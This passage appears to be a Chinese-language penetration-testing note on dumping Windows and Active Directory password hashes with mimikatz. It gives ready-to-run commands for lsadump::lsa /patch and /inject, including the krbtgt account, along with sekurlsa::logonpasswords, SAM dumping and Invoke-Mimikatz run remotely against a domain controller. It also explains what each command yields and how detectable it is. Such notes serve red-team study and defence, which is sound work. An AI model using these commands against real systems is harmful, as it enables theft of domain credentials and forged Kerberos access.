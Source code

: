 ```
privilege::debug
lsadump::lsa /patch 
lsadump::lsa /patch /id:502
lsadump::lsa /patch /name:krbtgt
```

/patch: 在memory中修改了samsrv.dll的逻辑(即patching)，从而获取LM/NTLM Hash。mimikatz作者不建议用/patch，修改LSA逻辑可能代码未知风险。

/inject: 在Lsass.exe中new了一个新的thread，除LM/NTLM Hash外还可以获取WDigest and Kerberos keys，但new thread的行为也易于被发现。



注意：

`sekurlsa::logonpasswords`，这条命令只能dump登录过此机器的账户Hash（仅创建没有登录过也无法dump）；如果能够解密出明文、会解密明文。

`privilege::debug token::elevate lsadump::sam token::revert exit`，这条命令是读取并解密SAM，能够获得本地所有账户的Hash。

`lsadump::lsa /inject`，向LSA请求SAM或AD数据；这条命令在域控机器上执行，dump的是域内所有账户、域控机器本地账户Hash；在非域控机器上执行，dump的是本地账户Hash。



**Invoke-Mimikatz**

```
Invoke-Mimikatz -Command '"LSADump::LSA /inject" exit'
Invoke-Mimikatz -Command '"LSADump::LSA /inject" exit'
```

发现使用Invoke-Mimikatz并不需要设置调试权限。。。

![image-20201116211832149](/assets/img/image-20201116211832149.png)



### 2. 远程获取

**Invoke-Mimikatz**

此命令以medium权限执行即可，但需要当前用户拥有域管理员权限

```
Invoke-Mimikatz -Command 'privilege::debug "lsadump::lsa /inject"' -ComputerName ringdc-pc
```



## 获取ntds.dit后离线提取Hash

[EXTRACTING PASSWORD HASHES FROM THE NTDS.DIT FILE](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)

[How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller](https://adsecurity.org/?p=451)
